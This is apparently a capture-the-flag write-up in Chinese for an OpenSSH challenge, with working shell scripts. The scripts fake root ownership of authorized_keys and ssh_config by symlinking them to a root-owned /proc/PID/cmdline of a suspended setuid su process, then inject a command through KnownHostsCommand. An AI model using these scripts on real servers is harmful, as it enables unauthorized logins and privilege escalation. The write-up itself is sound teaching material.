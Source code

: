 # [Misc] 小Z的服务器

- 命题人：lrh2000（题面：xmcp）
- Flag 1：350 分
- Flag 2：300 分

## 题目描述

<p>看呐，小 Z 给组里的服务器装好了系统！</p>
<p>看呐，小 Z 在服务器上安装了 OpenSSH 服务！</p>
<p>看呐，小 Z 设置好了公钥登录！</p>
<p>看呐，小 Z 新建了一个管理员账号，在根目录放了一个 Flag！</p>
<p>看呐，小 Z 把管理员账号的家目录设置成了跟自己一样！</p>
<p>看……诶，这样做是不是有什么问题来着？</p>
<p>究竟是什么问题呢？</p>
<p><strong>注意：本题终端将在连接 10 分钟后关闭，如需长时间调试建议下载源码运行。</strong></p>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>Flag 1: <code>authorized_keys</code> <a target="_blank" rel="noopener noreferrer" href="https://github.com/openssh/openssh-portable/blob/2dc328023f60212cd29504fc05d849133ae47355/regress/check-perm.c#L93-L149">生效条件</a><ul>
<li>函数 <code>realpath</code> 干了什么？</li>
</ul>
</li>
<li>Flag 2: <code>ssh_config</code> <a target="_blank" rel="noopener noreferrer" href="https://man.openbsd.org/ssh_config">官方文档</a><ul>
<li>形如 <code>*Command</code> 的配置项可以干什么？</li>
</ul>
</li>
</ul>
</div>

**【终端交互：连接到题目】**

**[【附件：下载题目源码（prob05-src.tar.gz）】](attachment/prob05-src.tar.gz)**

## 预期解法

预期考察点是OpenSSH源码审计、一点脑洞和避坑能力。

本题开启了sshd服务，管理员帐号的家目录在内容上是完全可控的，登录管理员帐号即可获得Flag 1，因此自然的思路是能否直接“帮”管理员配置一个公私钥登录。简单尝试可知，直接的配置不会生效，这是因为在默认配置下sshd会检查`authorized_keys`文件的所有者和可写性是否正常（参见[`sshd_config`官方文档](https://www.freebsd.org/cgi/man.cgi?sshd_config)中的`StrictModes`）。

文档中没有详细介绍检查的规则，但阅读[相应源代码](https://github.com/openssh/openssh-portable/blob/ca98d3f8c64cfc51af81e1b01c36a919d5947ec2/misc.c#L2163-L2232)可知检查过程会首先解析符号链接（根据[`realpath`函数文档](https://man7.org/linux/man-pages/man3/realpath.3.html)），随后检查文件所有者是否是被登录用户自己或者root（函数`platform_sys_dir_uid`）。这意味着如果可以找到内容可控的，并且由root持有的文件，就可以直接创建相应的符号链接骗过上述检查流程。

有没有符合条件的文件呢？对于setuid的程序（如`su`），文件`/proc/PID/cmdline`的所有者是root并且内容取决于传入的命令行参数，可以注入公钥充当`authorized_keys`的角色（注意这个文件不需要完全合法，不合法的行会被忽略，同时不会引起错误），因此Flag 1能通过如下方法拿到：
```sh
#! /bin/sh

if [ ! -f ~/.ssh/id_rsa ]; then
        echo '' | ssh-keygen -N ""
fi

AUTH_KEY=$(cat ~/.ssh/id_rsa.pub)

su root -c $'\n'"$AUTH_KEY" &
sleep 0.1

SU_PID=$!
kill -STOP $SU_PID

AUTH_FILE=/proc/$!/cmdline

rm -f ~/.ssh/authorized_keys
ln -s $AUTH_FILE ~/.ssh/authorized_keys

chmod +x ~ ~/.ssh
rm -f ~/.ssh/config
ssh -oStrictHostKeyChecking=no admin2@localhost cat /flag2

kill -CONT $SU_PID
kill -TERM $SU_PID
wait
```

对于Flag 2，相应的帐号可以用同样的办法进行登录，但是用户shell被设置为了执行一条不通的ssh尝试。通过这个ssh尝试，其实可以注入任意命令执行。从[`ssh_config`官方文件](https://www.freebsd.org/cgi/man.cgi?ssh_config)可知配置文件中有较多按字面意思即可命令注入的配置项，如`ProxyCommand`。不过尝试后可以发现`ProxyCommand`是通过用户shell执行的，但是这里用户shell因为被配置为了一次固定的ssh操作而没有执行命令的能力（这里可能会坑到部分选手）。

再仔细阅读下文档会发现，`ProxyCommand`明确说了会调用用户shell来执行命令，而`KnownHostsCommand`则没有明说，那么有没有可能后者不会调用用户shell呢？事实的确如此，可以本地通过`strace`测试进行简单的验证，因此Flag 2可以通过如下方法获取（`ssh_config`也需要绕过所有者检查，同时必须保证语法正确，这可以通过手动调用`execlp`使得`/proc/PID/cmdline`文件完全可控，即随便乱填`argv[0]`）：
```sh
#! /bin/sh

if [ ! -f ~/.ssh/id_rsa ]; then
        echo '' | ssh-keygen -N ""
fi

AUTH_KEY=$(cat ~/.ssh/id_rsa.pub)

su root -c $'\n'"$AUTH_KEY" &
sleep 0.1

SU_PID=$!
kill -STOP $SU_PID

AUTH_FILE=/proc/$SU_PID/cmdline

rm -f ~/.ssh/authorized_keys
ln -s $AUTH_FILE ~/.ssh/authorized_keys

CFG_CONTENT="KnownHostsCommand /bin/chmod +r /flag2\n"

python3 -c "__import__('os').execlp('su', '$CFG_CONTENT')" &
sleep 0.1

PY_PID=$!
kill -STOP $PY_PID

CFG_FILE=/proc/$PY_PID/cmdline

rm -f ~/.ssh/config
ln -s $CFG_FILE ~/.ssh/config

chmod +x ~ ~/.ssh
ssh -F /dev/null -oStrictHostKeyChecking=no admin2@localhost
cat /flag2

kill -CONT $SU_PID
kill -TERM $SU_PID
kill -CONT $PY_PID
kill -TERM $PY_PID
wait
```

此外，Flag 2存在一些非预期解法，如利用`ssh_config`配置中的`PKCS11Provider`注入动态链接库从而任意代码执行，具体可参考优秀选手WP（TODO：补充链接）。

**勘误：** 第二阶段提示以及以上writeup的*初始版本*中声称`authorized_keys`的生效条件是[文件`check-perm.c`中的函数`auth_secure_path`](https://github.com/openssh/openssh-portable/blob/2dc328023f60212cd29504fc05d849133ae47355/regress/check-perm.c#L93-L149)，但实际上应是[文件`misc.c`中的函数`safe_path`](https://github.com/openssh/openssh-portable/blob/ca98d3f8c64cfc51af81e1b01c36a919d5947ec2/misc.c#L2163-L2232)，这两个函数在内容上是完全一样的，但是调用点略有差别。对于后者，在`authorized_keys`文件的权限检查路径上，其文件的属性是[打开文件后用`fstat`获取的](https://github.com/openssh/openssh-portable/blob/ca98d3f8c64cfc51af81e1b01c36a919d5947ec2/misc.c#L2247)，这意味着符号链接已经被解析，不会在后续[文件类型的检查](https://github.com/openssh/openssh-portable/blob/ca98d3f8c64cfc51af81e1b01c36a919d5947ec2/misc.c#L2193)中失败；对于前者则稍麻烦一些，文件属性是[基于路径检查的](https://github.com/openssh/openssh-portable/blob/2dc328023f60212cd29504fc05d849133ae47355/regress/check-perm.c#L195)，直接的符号链接不能通过[文件类型的检查](https://github.com/openssh/openssh-portable/blob/2dc328023f60212cd29504fc05d849133ae47355/regress/check-perm.c#L110)，需要通过并发制造竞争才能利用。感谢选手 VariantF 及时将这一错误指出，对比赛过程中因为该问题对选手解题造成的困惑表示十分抱歉。
